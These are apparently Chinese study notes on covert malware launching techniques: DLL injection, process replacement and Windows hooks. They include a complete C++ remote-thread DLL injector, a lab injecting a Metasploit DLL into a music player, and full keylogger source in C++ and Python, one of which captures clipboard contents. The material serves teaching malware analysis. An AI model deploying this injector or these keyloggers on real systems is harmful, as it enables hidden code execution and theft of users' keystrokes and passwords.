# 第十二章 隐蔽的恶意代码启动

## 启动器（Launcher）

启动器（也称为加载器）是一种设置自身或其他恶意代码片段以达到即时或将来秘密运行的恶意代码。启动器的目的是安装一些东西，以使恶意行为对用户隐藏。

恶意代码经常将一个可执行文件或者 `DLL`隐藏在资源节，当启动器运行时，会从资源节将恶意代码提取出来，可以使用工具（Resource Hacker）。请注意以下的几个 `API`函数。

* `FindResource`
* `LoadResource`
* `SizeofResource`

Resource Hacker链接：http://www.angusj.com/resourcehacker/

## 进程注入

隐藏启动的最流行技术是进程注入。顾名思义，这种技术是将代码注入到另外一个正在运行的进程中，而被注入的进程会不知不觉地运行注入的代码。恶意代码编写者试图通过进程注入技术隐藏代码的行为，有时他们也试图使用这种技术绕过基于主机的防火墙和那些针对进程的安全机制。

* `VirtualAllocEx`函数用来在另外一个进程中分配一块内存空间
* `WriteProcessMemory`函数用来向`VirtualAllocEx`函数分配的地址空间写数据。

### DLL注入

可以简单理解 `DLL`注入就是让程序A强行加载程序B给定的 `a.dll`，并执行程序B给定的a.dll里面的代码。

#### 使用 `CreateRemoteThread`函数对运行中的进程注入dll

* 1、获取受害进程的句柄
  * `CreateToolhelp32Snapshot`（查找进程列表中的目标进程）
  * `Process32First`（查找进程列表中的目标进程）
  * `Process32Next`（查找进程列表中的目标进程）
  * `OpenProcess` （提取目标进程的句柄）
* 2、在指定进程的虚拟地址空间申请内存
  * `VirtualAllocEx`
* 3、将恶意DLL的路径写入创建的内存空间
  * `WriteProcessMemory`
* 4、找到`LoadLibrary`函数
  * `GetProcAddress`

* 5、让被注入的进程调用`CreateRemoteThread`加载恶意`DLL`
  * `CreateRemoteThread`


```cpp
// RemoteThread.cpp : 定义控制台应用程序的入口点。
//

#include <tchar.h>
#include <Windows.h>
#include <iostream>
using namespace std;
BOOL EnableDebugPrivilege();
BOOL  InjectDllByRemoteThread(ULONG32 ulTargetProcessID, WCHAR* wzDllFullPath);


wchar_t* char2wchar(const char* cchar)
{
	wchar_t* m_wchar;
	int len = MultiByteToWideChar(CP_ACP, 0, cchar, strlen(cchar), NULL, 0);
	m_wchar = new wchar_t[len + 1];
	MultiByteToWideChar(CP_ACP, 0, cchar, strlen(cchar), m_wchar, len);
	m_wchar[len] = '\0';
	return m_wchar;
}


int _tmain(int argc, _TCHAR* argv[])
{
	if (EnableDebugPrivilege() == FALSE)
	{
		return 0;
	}
	ULONG32  ulProcessID = 0;
	printf("Input ProcessID\r\n");
	cin >> ulProcessID;

	char fullpath[100] = {0};
	printf("Input DllPath\r\n");
	cin >> fullpath;
	wchar_t* wzDllFullPath = char2wchar(fullpath);

	InjectDllByRemoteThread(ulProcessID, wzDllFullPath);
	return 0;
}

BOOL  InjectDllByRemoteThread(ULONG32 ulTargetProcessID, WCHAR* wzDllFullPath)
{
	HANDLE  TargetProcessHandle = NULL;
	TargetProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, ulTargetProcessID);
	if (NULL == TargetProcessHandle)
	{
		printf("failed to open process!!\n");
		return FALSE;
	}
	WCHAR* VirtualAddress = NULL;
	ULONG32 ulDllLength = (ULONG32)_tcslen(wzDllFullPath) + 1;
	//在指定进程的虚拟地址空间申请内存
	VirtualAddress = (WCHAR*)VirtualAllocEx(TargetProcessHandle, NULL, ulDllLength * sizeof(WCHAR), MEM_COMMIT, PAGE_READWRITE);
	if (NULL == VirtualAddress)
	{
		printf("failed to Alloc!!\n");
		CloseHandle(TargetProcessHandle);
		return FALSE;
	}
	// 写入恶意DLL的路径
	if (FALSE == WriteProcessMemory(TargetProcessHandle, VirtualAddress, (LPVOID)wzDllFullPath, ulDllLength * sizeof(WCHAR), NULL))
	{
		printf("failed to write!!\n");
		VirtualFreeEx(TargetProcessHandle, VirtualAddress, ulDllLength, MEM_DECOMMIT);
		CloseHandle(TargetProcessHandle);
		return FALSE;
	}
	LPTHREAD_START_ROUTINE FunctionAddress = NULL;
	// 找到 "LoadLibraryW"函数
	FunctionAddress = (PTHREAD_START_ROUTINE)::GetProcAddress(::GetModuleHandle(_T("Kernel32")), "LoadLibraryW");
	HANDLE ThreadHandle = INVALID_HANDLE_VALUE;
	// 开始注入
	ThreadHandle = CreateRemoteThread(TargetProcessHandle, NULL, 0, FunctionAddress, VirtualAddress, 0, NULL);
	if (NULL == ThreadHandle)
	{
		VirtualFreeEx(TargetProcessHandle, VirtualAddress, ulDllLength, MEM_DECOMMIT);
		CloseHandle(TargetProcessHandle);
		return FALSE;
	}
	// WaitForSingleObject
	WaitForSingleObject(ThreadHandle, INFINITE);
	VirtualFreeEx(TargetProcessHandle, VirtualAddress, ulDllLength, MEM_DECOMMIT);			// 清理
	CloseHandle(ThreadHandle);
	CloseHandle(TargetProcessHandle);
}

BOOL EnableDebugPrivilege()
{
	HANDLE TokenHandle = NULL;
	TOKEN_PRIVILEGES TokenPrivilege;
	LUID uID;
	//打开权限令牌
	if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &TokenHandle))
	{
		return FALSE;
	}
	if (!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &uID))
	{
		CloseHandle(TokenHandle);
		TokenHandle = INVALID_HANDLE_VALUE;
		return FALSE;
	}
	TokenPrivilege.PrivilegeCount = 1;
	TokenPrivilege.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	TokenPrivilege.Privileges[0].Luid = uID;
	if (!AdjustTokenPrivileges(TokenHandle, FALSE, &TokenPrivilege, sizeof(TOKEN_PRIVILEGES), NULL, NULL))
		//调整权限
	{
		CloseHandle(TokenHandle);
		TokenHandle = INVALID_HANDLE_VALUE;
		return  FALSE;
	}
	CloseHandle(TokenHandle);
	TokenHandle = INVALID_HANDLE_VALUE;
	return TRUE;
}

```

**实验**

使用上述代码实现DLL注入

1、kali上使用`msf`生成DLL，并开启监听

2、准备注入网易云



3、注入完成





4、查看`cloudmusic.exe`的模块列表




### 直接注入

同 `DLL`注入一样，直接注入也涉及在远程进程的内存空间中分配和插入代码。直接注入同 `DLL`注入类似，它们都使用了许多相同的 `WindowsAPI`函数。不同的是，它并不用单独编写一个 `DLL`并且强制远程进程载入它，而是直接将恶意代码注入到远程进程中。

在应用直接注入技术的恶意代码中，经常会发现如下三个函数：`VirtualAllocEx`、`writeProcessMenory`和 `CreateRemoteThread`。通常会有两次 `virtualAllocEx`和 `WriteProcessMemory`调用。第一次调用是分配内存空间并写入远程线程使用的数据。第二次调用分配内存空间并且写入远程线程代码。`CreateRemoteThread`调用包含远程线程代码的位置（`lpStartAddress`）和数据（`lpParameter`）。

要分析远程线程的代码，你可能需要调试恶意代码，并且在反汇编器中，转储 `WriteprocessMemory`调用发生前所有的内存缓存区，以便进行分析。由于这些缓存区经常包含 `shellcode`，因此你需要掌握 `shellcode`分析技巧.

## 进程替换

进程替换的关键是以挂起状态创建一个进程。这也就意味着这个进程将会被载入内存，但是它的主线程被挂起。在外部的程序恢复主线程之前，这个程序将不做任何事情，恢复主线程后，才开始执行。

* 1、获取进程的挂起状态
  * 调用 `CreateProcess`，并传递 `CREATE_SUSPENDED(0x4)`作为 `dwCreationFlags`参数，得到这个进程的挂起状态
* 2、用恶意的可执行文件替换受害进程的内存空间
  * `ZtUnmapViewofSection`来释放由参数指向的所有内存
  * `VirtualAllocEx`为恶意代码分配新的内存
  * `WriteProcessMemory`将恶意代码的每个段写入到受害进程的内存空间
* 3、恶意代码恢复受害进程的环境
  * `SetThreadContext`函数，让入口点指向恶意的代码，让其获得运行
* 4、初始化恶意代码并进行执行
  * 调用 `ResumeThread`函数

参考：https://bbs.pediy.com/thread-153508.htm

## 钩子(Hook)注入

钩子注入是一种利用Windows钩子（Hook）加载恶意代码的方法，恶意代码用它拦截发往某个应用程序的消息。恶意代码编写者可以用挂钩注入，来完成以下两种事情。

* 保证无论何时拦截到一个特殊消息，恶意代码都会被运行。
* 保证一个特殊的 `DLL`被载入到受害进程的内存空间。



#### Inline Hook

**Inline Hook是最常用的Hook手段之一，是一种通过修改机器码的方式来实现hook的技术**

正常函数调用：



HOOK后函数调用：



**实现形式**

* jump XXXXXXXX（五字节）
* push XXXXXXXX/retn （六字节）
* mov eax, XXXXXXXX/jmp eax （七字节）
* hot-patching（五字节的nop加二字节无效指令：mov edi, edi）可以转换成一个长跳加一个短跳
  * 参考：https://nullprogram.com/blog/2016/03/31/


例：

五字节形式:

```
#include <Windows.h>
#include <iostream>

BYTE __OldCode[5] = {0};

int __stdcall MyMessageBoxW(
	HWND hWnd,
	LPCSTR lpText,
	LPCSTR lpCaption,
	UINT uType);

//拦截,并备份
void InlineHook()
{
	char* target = (char*)&MessageBoxW;
	char* detour = (char*)&MyMessageBoxW;

	DWORD  oldProtect;
	VirtualProtect(target, 5, PAGE_EXECUTE_READWRITE, &oldProtect);
	memcpy(__OldCode, target, 5);

	unsigned char jmp_0xe9 = 0xE9;//jmp
	unsigned int jmp_addr = detour - target - 5;//jmp 地址

	//覆盖原函数5个字节为 jmp XXXXXXXX
	memcpy(target, &jmp_0xe9, 1);
	memcpy(target + 1, &jmp_addr, 4);

	VirtualProtect(target, 5, oldProtect, &oldProtect);
}

int __stdcall MyMessageBoxW(
	HWND hWnd,
	LPCSTR lpText,
	LPCSTR lpCaption,
	UINT uType)
{

	char* target = (char*)&MessageBoxW;
	DWORD  oldProtect;
	VirtualProtect(target, 5, PAGE_EXECUTE_READWRITE, &oldProtect);
	//恢复备份
	memcpy(target, __OldCode, 5);
	VirtualProtect(target, 5, oldProtect, &oldProtect);
	//继续调用原函数
	return MessageBoxW(hWnd, L"Hook", L"Title", uType);
}

int main()
{	
	//第一次调用，正常
	MessageBoxW(NULL, L"Hello World1", L"Title", MB_OK);
	InlineHook();
	//第二次调用，添加Hook
	MessageBoxW(NULL, L"Hello World2", L"Title", MB_OK);
	//第三次调用，正常
	MessageBoxW(NULL, L"Hello World3", L"Title", MB_OK);
}
```


七字节形式：

```c++
#include <windows.h>
#include <stdio.h>
#include <iostream>
#include <tchar.h>


// mov eax, XXXXXXXX
// jmp eax
//
BYTE __NewCode[7] = { 0xE9, 0x0, 0x0, 0x0, 0x0, 0x0 };
BYTE __OldCode[7] = { 0 };

FARPROC __MessageBoxAddress;

int WINAPI MyMessageBoxW(
	HWND hWnd, // handle to owner window
	LPCTSTR lpText, // text in message box
	LPCTSTR lpCaption, // message box title
	UINT uType // message box style
);

void InlineHook();

int main()
{
	//第一次调用 正常
	MessageBoxW(NULL, L"Hello World1", L"Title", MB_OK);
	InlineHook();

	//第二次调用 Hook
	MessageBoxW(NULL, L"Hello World2", L"Title", MB_OK);
    
    //第二次调用 Hook
    MessageBoxW(NULL, L"Hello World3", L"Title", MB_OK);
	return 0;
}

void InlineHook()
{
	HMODULE hModule_User32 = LoadLibrary(L"User32.dll");
	__MessageBoxAddress = GetProcAddress(hModule_User32, "MessageBoxW");

	//读MessageBoxW函数的前6个字节
	if (ReadProcessMemory(INVALID_HANDLE_VALUE, __MessageBoxAddress, __OldCode, 7, NULL) == 0)
	{
		printf("ReadProcessMemory error\n");
		return;
	}

	// Hook函数的地址
	DWORD JmpAddress = (DWORD)MyMessageBoxW;

	// 构造新头部代码
	__NewCode[0] = 0xB8; //
	memcpy(&__NewCode[1], &JmpAddress, 4); // mov eax, _JmpAddr
	__NewCode[5] = 0xFF; //
	__NewCode[6] = 0xE0; // jmp eax
	DWORD dwOldProtect = 0;

	//DWORD dwOldProtect = 0; //旧保护属性
	// 去内存保护
	::VirtualProtect(__MessageBoxAddress, 7, PAGE_EXECUTE_READWRITE, &dwOldProtect);
	//写入跳转，开始Hook
	WriteProcessMemory(INVALID_HANDLE_VALUE, __MessageBoxAddress, __NewCode, 7, NULL);
	// 写内存保护
	::VirtualProtect(__MessageBoxAddress, 7, dwOldProtect, &dwOldProtect);
}

int WINAPI MyMessageBoxW(
	HWND hWnd, // handle to owner window
	LPCTSTR lpText, // text in message box
	LPCTSTR lpCaption, // message box title
	UINT uType // message box style
)
{
	//恢复API头7个字节
	WriteProcessMemory(INVALID_HANDLE_VALUE, (void*)__MessageBoxAddress,
		(void*)__OldCode, 7, NULL);
	int ret = MessageBoxW(NULL, L"Hello Hook", L"Title", MB_OK);
	WriteProcessMemory(INVALID_HANDLE_VALUE, (void*)__MessageBoxAddress,
		(void*)__NewCode, 7, NULL);
	return ret;
}
```


#### 使用钩子的击键记录器

```
关键函数：
WH_KEYBOARD
WH_KEYBOARD_L

MSDN：
https://docs.microsoft.com/en-us/windows/win32/winmsg/using-hooks
```

钩子注入常被一种叫做击键记录器的恶意程序所使用，被用来记录击键。击键可以分别使用 `WH_KEYBOARD`和 `WH_KEYBOARD_LL`钩子例程类型，来注册上层和底层的钩子。

对于WH_KEYBOARD例程，钩子通常运行在远程进程的上下文空间中，也可以运行在安装钩子的进程空间中。对于WH_KEYBOARD_LL例程，事件直接发送到安装钩子的进程，所以钩子运行在创建钩子的进程中。无论使用哪种钩子类型，击键记录器都可以截获击键，并且在传递到进程或者系统之前，把它们记录到文件或是修改。

#### 使用SetWindowsHookEx

设置windows hook大体上分为三步：

* 设置Hook，接收消息

  * ```c++
    // MSDN: https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa
    // 设置Hook
    
    HHOOK SetWindowsHookExA(
      [in] int       idHook, //指定要安装的钩子例程的类型。
      [in] HOOKPROC  lpfn, //lpfn钩子例程指针。
      [in] HINSTANCE hmod, //hMod对于上层的钩子，它来标识包含lpfn定义的钩子例程的DLL句柄。对于底层钩子，它来标识包含1pfn例程的本地模块句柄。
      [in] DWORD     dwThreadId //dwThreadId 指定与钩子例程关联的线程标识，如果这个参数为0，则挂钩例程将绑定与调用线程同在一个桌面的所有线程。当为底层钩子时必须被设置为0。
    );
    ```

  * 

* 设置回调函数

  * ```c++
    // MSDN https://docs.microsoft.com/en-us/windows/win32/api/winuser/nc-winuser-hookproc
    // 设置回调函数
    
    HOOKPROC Hookproc;
    LRESULT Hookproc(
           int code,
      [in] WPARAM wParam,
      [in] LPARAM lParam
    )
    {...}
    ```

* 解绑Hook

  * ```C++
    // MSDN https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-unhookwindowshookex
    // 解绑Hook
    
    BOOL UnhookWindowsHookEx(
      [in] HHOOK hhk
    );
    ```


使用`SetWindowsHookEx`实现键盘记录器

```
#include <Windows.h>
#include <string>
#include <fstream>
#include <sstream>
#include <stdio.h>
#include <iostream>
#include <tchar.h>
#pragma once

using namespace std;

//函数定义
BOOL HookKeyBoard();
void unhookKeyboard();
string Dayofweek(int code);
LRESULT CALLBACK HookProcedure(int nCode, WPARAM wParam, LPARAM lParam);


string HookCode(DWORD code, BOOL caps, BOOL shift);

//  全局键盘Hook句柄
HHOOK kKeyboardHook;
//  Shift Key 
BOOL bShift = FALSE;
//  存放键盘消息
string fileName = "E:\\test.txt";
//  Windows Title Text -260 char-
char cWindow[1000];
//  NULL is ok
HWND lastWindow = NULL;


int main()
{
    cout << "start !" << endl;
    //  设置键盘钩子
    if (!HookKeyBoard())
    {
        cout << "Hook KeyBoard Failed!" << endl;
    }
    unhookKeyboard();//释放hook
}

// 设置钩子
BOOL HookKeyBoard()
{
    BOOL bRet = FALSE;

    kKeyboardHook = SetWindowsHookEx(
        WH_KEYBOARD_LL, //  low-level keyboard input events
        HookProcedure, //  回调函数地址
        GetModuleHandle(NULL), // A handle to the DLL containing the hook procedure 
        NULL //线程ID，欲勾住的线程（为0则不指定，全局）
    );
    if (!kKeyboardHook)
    {
        //  如果SetWindowsHookEx 失败
        cout << "[!] Failed to get handle from SetWindowsHookEx()" << endl;
    }
    else
    {
        cout << "[*] KeyCapture handle ready" << endl;
        MSG Msg{};  //  统一初始化
        while (GetMessage(&Msg, NULL, 0, 0) > 0)
        {
            TranslateMessage(&Msg);
            DispatchMessage(&Msg);
        }
        bRet = TRUE;
    }
    return bRet;
}


//钩子回调函数
LRESULT CALLBACK HookProcedure(int nCode, WPARAM wParam, LPARAM lParam)
{
    ofstream myfile(fileName, ios::out | ios::app);
    BOOL  caps = FALSE;  //  默认大写关闭
    SHORT capsShort = GetKeyState(VK_CAPITAL);
    string outPut;
    stringstream ssTemp;  //  string 字符流
    if (capsShort > 0)
    {
        //  如果大于0，则大写键按下，说明开启大写；反之小写
        caps = TRUE;
    }

    KBDLLHOOKSTRUCT* p = (KBDLLHOOKSTRUCT*)lParam;
    //  wParam和lParam参数包含关于键盘消息的信息。
    if (nCode == HC_ACTION)
    {
        // Messsage data is ready for pickup
        // Check for SHIFT key
        if (p->vkCode == VK_LSHIFT || p->vkCode == VK_RSHIFT)
        {
            //  WM_KEYDOWN, WM_KEYUP, WM_SYSKEYDOWN, or WM_SYSKEYUP.
            if (wParam == WM_KEYDOWN)
            {
                bShift = TRUE;
            }
            if (wParam == WM_KEYUP)
            {
                bShift = FALSE;
            }
            else
            {
                bShift = FALSE;
            }
        }
        //  Start Loging keys now we are setup
        if (wParam == WM_SYSKEYDOWN || wParam == WM_KEYDOWN)
        {
            //  Retrieves a handle to the foreground window (the window with which the user is currently working).
            HWND currentWindow = GetForegroundWindow();  //  返回前台窗口，获得当前窗口
            //  Check if we need to write new window output
            if (currentWindow != lastWindow)
            {
                SYSTEMTIME t{};
                GetLocalTime(&t);  //  获得当前系统时间
                int day = t.wDay;
                int month = t.wMonth;
                int year = t.wYear;
                int hour = t.wHour;
                int min = t.wMinute;
                int sec = t.wSecond;
                int dayName = t.wDayOfWeek;
                //  Build our output header
                ssTemp << "\n\n[+] " << Dayofweek(dayName) << " - " << day << "/" << month << "/" << year << "  ";
                ssTemp << hour << ":" << min << ":" << sec;
                outPut.append(ssTemp.str());
                ssTemp.clear();
                //  GetWindowTextACCC
                int c = GetWindowTextA(GetForegroundWindow(), cWindow, sizeof(cWindow));
                cout << c;
                ssTemp << " - Current Window: " << cWindow << "\n\n";
                //outPut.append(temp.str());
                cout << ssTemp.str() << endl;
                myfile << ssTemp.str();

                // Setup for next CallBackCC
                lastWindow = currentWindow;
            }
            //  Now capture keys
            if (p->vkCode)
            {
                ssTemp.clear();
                ssTemp << HookCode(p->vkCode, caps, bShift);
                cout << ssTemp.str();
                myfile << ssTemp.str();

            }
            //  Final output logic
        }
    }
    //  hook procedure must pass the message *Always*
    myfile.close();
    return CallNextHookEx(NULL, nCode, wParam, lParam);  //  hook链
}
/********************************************************
函数作用：时间
返回值：返回时间
*********************************************************/
string Dayofweek(int code)
{
    // Return Day of the year in text
    string name;
    switch (code)
    {
    case 0: name = "[SUNDAY]"; break;
    case 1: name = "[MONDAY]"; break;
    case 2: name = "[TUESDAY]"; break;
    case 3: name = "[WENSDAY]"; break;
    case 4: name = "[THURSDAY]"; break;
    case 5: name = "[FRIDAY]"; break;
    case 6: name = "[SATURDAY]"; break;
    default:
        name = "[UNKOWN]";
    }
    return name;
}


// 键盘消息转化位字符
string HookCode(DWORD code, BOOL caps, BOOL shift)
{
    string key;
    switch (code) // SWITCH ON INT
    {
        // Char keys for ASCI
        // No VM Def in header 
    case 0x41: key = caps ? (shift ? "a" : "A") : (shift ? "A" : "a"); break;
    case 0x42: key = caps ? (shift ? "b" : "B") : (shift ? "B" : "b"); break;
    case 0x43: key = caps ? (shift ? "c" : "C") : (shift ? "C" : "c"); break;
    case 0x44: key = caps ? (shift ? "d" : "D") : (shift ? "D" : "d"); break;
    case 0x45: key = caps ? (shift ? "e" : "E") : (shift ? "E" : "e"); break;
    case 0x46: key = caps ? (shift ? "f" : "F") : (shift ? "F" : "f"); break;
    case 0x47: key = caps ? (shift ? "g" : "G") : (shift ? "G" : "g"); break;
    case 0x48: key = caps ? (shift ? "h" : "H") : (shift ? "H" : "h"); break;
    case 0x49: key = caps ? (shift ? "i" : "I") : (shift ? "I" : "i"); break;
    case 0x4A: key = caps ? (shift ? "j" : "J") : (shift ? "J" : "j"); break;
    case 0x4B: key = caps ? (shift ? "k" : "K") : (shift ? "K" : "k"); break;
    case 0x4C: key = caps ? (shift ? "l" : "L") : (shift ? "L" : "l"); break;
    case 0x4D: key = caps ? (shift ? "m" : "M") : (shift ? "M" : "m"); break;
    case 0x4E: key = caps ? (shift ? "n" : "N") : (shift ? "N" : "n"); break;
    case 0x4F: key = caps ? (shift ? "o" : "O") : (shift ? "O" : "o"); break;
    case 0x50: key = caps ? (shift ? "p" : "P") : (shift ? "P" : "p"); break;
    case 0x51: key = caps ? (shift ? "q" : "Q") : (shift ? "Q" : "q"); break;
    case 0x52: key = caps ? (shift ? "r" : "R") : (shift ? "R" : "r"); break;
    case 0x53: key = caps ? (shift ? "s" : "S") : (shift ? "S" : "s"); break;
    case 0x54: key = caps ? (shift ? "t" : "T") : (shift ? "T" : "t"); break;
    case 0x55: key = caps ? (shift ? "u" : "U") : (shift ? "U" : "u"); break;
    case 0x56: key = caps ? (shift ? "v" : "V") : (shift ? "V" : "v"); break;
    case 0x57: key = caps ? (shift ? "w" : "W") : (shift ? "W" : "w"); break;
    case 0x58: key = caps ? (shift ? "x" : "X") : (shift ? "X" : "x"); break;
    case 0x59: key = caps ? (shift ? "y" : "Y") : (shift ? "Y" : "y"); break;
    case 0x5A: key = caps ? (shift ? "z" : "Z") : (shift ? "Z" : "z"); break;
        // Sleep Key
    case VK_SLEEP: key = "[SLEEP]"; break;
        // Num Keyboard 
    case VK_NUMPAD0:  key = "0"; break;
    case VK_NUMPAD1:  key = "1"; break;
    case VK_NUMPAD2: key = "2"; break;
    case VK_NUMPAD3:  key = "3"; break;
    case VK_NUMPAD4:  key = "4"; break;
    case VK_NUMPAD5:  key = "5"; break;
    case VK_NUMPAD6:  key = "6"; break;
    case VK_NUMPAD7:  key = "7"; break;
    case VK_NUMPAD8:  key = "8"; break;
    case VK_NUMPAD9:  key = "9"; break;
    case VK_MULTIPLY: key = "*"; break;
    case VK_ADD:      key = "+"; break;
    case VK_SEPARATOR: key = "-"; break;
    case VK_SUBTRACT: key = "-"; break;
    case VK_DECIMAL:  key = "."; break;
    case VK_DIVIDE:   key = "/"; break;
        // Function Keys
    case VK_F1:  key = "[F1]"; break;
    case VK_F2:  key = "[F2]"; break;
    case VK_F3:  key = "[F3]"; break;
    case VK_F4:  key = "[F4]"; break;
    case VK_F5:  key = "[F5]"; break;
    case VK_F6:  key = "[F6]"; break;
    case VK_F7:  key = "[F7]"; break;
    case VK_F8:  key = "[F8]"; break;
    case VK_F9:  key = "[F9]"; break;
    case VK_F10:  key = "[F10]"; break;
    case VK_F11:  key = "[F11]"; break;
    case VK_F12:  key = "[F12]"; break;
    case VK_F13:  key = "[F13]"; break;
    case VK_F14:  key = "[F14]"; break;
    case VK_F15:  key = "[F15]"; break;
    case VK_F16:  key = "[F16]"; break;
    case VK_F17:  key = "[F17]"; break;
    case VK_F18:  key = "[F18]"; break;
    case VK_F19:  key = "[F19]"; break;
    case VK_F20:  key = "[F20]"; break;
    case VK_F21:  key = "[F22]"; break;
    case VK_F22:  key = "[F23]"; break;
    case VK_F23:  key = "[F24]"; break;
    case VK_F24:  key = "[F25]"; break;
        // Keys
    case VK_NUMLOCK: key = "[NUM-LOCK]"; break;
    case VK_SCROLL:  key = "[SCROLL-LOCK]"; break;
    case VK_BACK:    key = "[BACK]"; break;
    case VK_TAB:     key = "[TAB]"; break;
    case VK_CLEAR:   key = "[CLEAR]"; break;
    case VK_RETURN:  key = "[ENTER]"; break;
    case VK_SHIFT:   key = "[SHIFT]"; break;
    case VK_CONTROL: key = "[CTRL]"; break;
    case VK_MENU:    key = "[ALT]"; break;
    case VK_PAUSE:   key = "[PAUSE]"; break;
    case VK_CAPITAL: key = "[CAP-LOCK]"; break;
    case VK_ESCAPE:  key = "[ESC]"; break;
    case VK_SPACE:   key = "[SPACE]"; break;
    case VK_PRIOR:   key = "[PAGEUP]"; break;
    case VK_NEXT:    key = "[PAGEDOWN]"; break;
    case VK_END:     key = "[END]"; break;
    case VK_HOME:    key = "[HOME]"; break;
    case VK_LEFT:    key = "[LEFT]"; break;
    case VK_UP:      key = "[UP]"; break;
    case VK_RIGHT:   key = "[RIGHT]"; break;
    case VK_DOWN:    key = "[DOWN]"; break;
    case VK_SELECT:  key = "[SELECT]"; break;
    case VK_PRINT:   key = "[PRINT]"; break;
    case VK_SNAPSHOT: key = "[PRTSCRN]"; break;
    case VK_INSERT:  key = "[INS]"; break;
    case VK_DELETE:  key = "[DEL]"; break;
    case VK_HELP:    key = "[HELP]"; break;
        // Number Keys with shift
    case 0x30:  key = shift ? "!" : "1"; break;
    case 0x31:  key = shift ? "@" : "2"; break;
    case 0x32:  key = shift ? "#" : "3"; break;
    case 0x33:  key = shift ? "$" : "4"; break;
    case 0x34:  key = shift ? "%" : "5"; break;
    case 0x35:  key = shift ? "^" : "6"; break;
    case 0x36:  key = shift ? "&" : "7"; break;
    case 0x37:  key = shift ? "*" : "8"; break;
    case 0x38:  key = shift ? "(" : "9"; break;
    case 0x39:  key = shift ? ")" : "0"; break;
        // Windows Keys
    case VK_LWIN:     key = "[WIN]"; break;
    case VK_RWIN:     key = "[WIN]"; break;
    case VK_LSHIFT:   key = "[SHIFT]"; break;
    case VK_RSHIFT:   key = "[SHIFT]"; break;
    case VK_LCONTROL: key = "[CTRL]"; break;
    case VK_RCONTROL: key = "[CTRL]"; break;
        // OEM Keys with shift 
    case VK_OEM_1:      key = shift ? ":" : ";"; break;
    case VK_OEM_PLUS:   key = shift ? "+" : "="; break;
    case VK_OEM_COMMA:  key = shift ? "<" : ","; break;
    case VK_OEM_MINUS:  key = shift ? "_" : "-"; break;
    case VK_OEM_PERIOD: key = shift ? ">" : "."; break;
    case VK_OEM_2:      key = shift ? "?" : "/"; break;
    case VK_OEM_3:      key = shift ? "~" : "`"; break;
    case VK_OEM_4:      key = shift ? "{" : "["; break;
    case VK_OEM_5:      key = shift ? "\\" : "|"; break;
    case VK_OEM_6:      key = shift ? "}" : "]"; break;
    case VK_OEM_7:      key = shift ? "'" : "'"; break; //TODO: Escape this char: "
                                                        // Action Keys
    case VK_PLAY:       key = "[PLAY]";
    case VK_ZOOM:       key = "[ZOOM]";
    case VK_OEM_CLEAR:  key = "[CLEAR]";
    case VK_CANCEL:     key = "[CTRL-C]";

    default: key = "[UNK-KEY]";
        break;
    }
    return key;
}


//释放钩子
void unhookKeyboard()
{
    if (kKeyboardHook != 0)
    {
        UnhookWindowsHookEx(kKeyboardHook);
    }
    exit(0);
}

```


#### Python实现Hook

**参考书籍**

《python黑帽子--黑客与渗透测试编程之道》



**安装pyHook**

使用`canda`新建环境

```
conda create -n hooktest python=2.7
conda env list //列出环境，查看是否创建成功
activate hooktest //激活环境
//退出环境 deactivate
```

直接使用pip install是不成功的，可以下载离线`WHL`文件，再使用`pip`进行安装。

下载地址：https://www.lfd.uci.edu/~gohlke/pythonlibs/#pyhook

下载对应版本即可。



使用pip安装

```
pip install pyHook-1.5.1-cp27-cp27m-win_amd64.whl
```


测试安装成功



同时，常和`pyHook`一起出现的还有`pythoncom`，同理安装`pywin32`即可。



测试代码

```
# -*- coding: utf-8 -*-
import pythoncom
import pyHook
def onKeyboardEvent(event):
    # 监听键盘事件
    print "Key:", event.Key
def main():
    # 创建一个“钩子”管理对象
    hm = pyHook.HookManager()
    # 监听所有键盘事件
    hm.KeyDown = onKeyboardEvent
    # 设置键盘“钩子”
    hm.HookKeyboard()
    # 进入循环，如不手动关闭，程序将一直处于监听状态
    pythoncom.PumpMessages()
 
 
if __name__ == "__main__":
    main()
```


**使用效果**




**加入窗口和进程检测**

```
#-*- coding: utf-8 -*-
 
from ctypes import *
import pythoncom
import pyHook
import win32clipboard
 
user32 = windll.user32
kernel32 = windll.kernel32
psapi = windll.psapi
current_window = None
 
 
def get_current_process():
    # 获得窗口句柄
    hwnd = user32.GetForegroundWindow()
 
    # 获得进程ID
    pid = c_ulong(0)
    user32.GetWindowThreadProcessId(hwnd, byref(pid))
 
    # 保存当前进程ID
    process_id = "%d" % pid.value
    print process_id
 
    # 申请内存
    executable = create_string_buffer("\x00" * 512)
 
    h_process = kernel32.OpenProcess(0x400 | 0x10, False, pid)
 
    psapi.GetModuleBaseNameA(h_process, None, byref(executable), 512)
 
    # 读取窗口标题
    window_title = create_string_buffer("\x00" * 512)
    length = user32.GetWindowTextA(hwnd, byref(window_title), 512)
 
    # 输出
    print "\n [ PID: %s - %s - %s ]" % (process_id, executable.value, window_title.value)
 
    # 关闭句柄
    kernel32.CloseHandle(hwnd)
    kernel32.CloseHandle(h_process)
 
 
def KeyStroke(event):
 
    global current_window
 
    # 检查目标是否切换窗口
    if event.WindowName != current_window:
        current_window = event.WindowName
        get_current_process()
 
    # 检测按键是否为常规键
    if event.Ascii > 32 and event.Ascii < 127:
        print chr(event.Ascii),
 
    else:
        # 如果输入为ctrl-v 则获取剪贴板内容
        if event.Key == "V":
            win32clipboard.OpenClipboard()
            pasted_value = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()
 
            print "[PASTE] - %s" % (pasted_value),
 
        else:
            print "[%s]" % event.Key,
 
    return True
 
# 创建和注册钩子函数管理器
kl = pyHook.HookManager()
kl.KeyDown = KeyStroke
 
 
# 注册键盘记录的钩子并永久执行
kl.HookKeyboard()
pythoncom.PumpMessages()
```

## Inline Hook库

### Detours

Detours是微软研究院1999年开发的一个代码库。它的初衷是作为一个来扩展已有操作系统和应用程序功能的简单工具。Detours开发库让开发人员对二进制应用程序进行修改变得简单可行。

同样，恶意代码编写者也喜欢Detours库，他们使用Detours库执行对导入表的修改，挂载 `DLL`到已有程序文件，并且向运行的进程添加函数钩子等。

Github：https://github.com/microsoft/Detours

### minhook

Github：https://github.com/TsudaKageyu/minhook

## APC注入

